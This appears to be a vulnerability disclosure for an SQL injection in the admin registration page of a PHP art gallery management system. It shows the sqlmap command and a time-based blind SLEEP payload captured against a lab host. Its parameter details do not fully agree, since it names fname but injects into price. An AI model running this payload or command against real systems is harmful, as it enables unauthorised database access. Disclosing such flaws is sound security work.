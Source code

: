 # SQL Injection vulnerability was discovered in Sourcecodester Online Art Gallary Management System 1.0 (admin registration)

Affected Project: Sourcecodester Online Art Gallary Management System 1.0

Official Website: https://www.sourcecodester.com/php/14211/online-art-gallery-management-system-project-using-phpmysql.html

Version: 1.0

Related Code file: /Admin/registration.php

Injection parameter: fname


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the /Admin/ By clicking on **Registration**, we can register for admin account.

`http://192.168.12.147/Admin/registration.php`

![image](https://github.com/gurudattch/CVEs/blob/main/assets/0.png)

--- 

We will first intercept the registration traffic using Burp Suite
![image1](https://github.com/gurudattch/CVEs/blob/main/assets/1.png)

 ---
 
Save the intercepted Registration request to a .txt file and execute sqlmap towards it. 

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/2.png)


---

parameter fname is vulnerable to sql injection

Below commands verifies the vulnerability:

`$ sqlmap -r sqli_test.txt -p fname`

---

![image3](https://github.com/gurudattch/CVEs/blob/main/assets/3.png)

---

```
---
Parameter: fname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
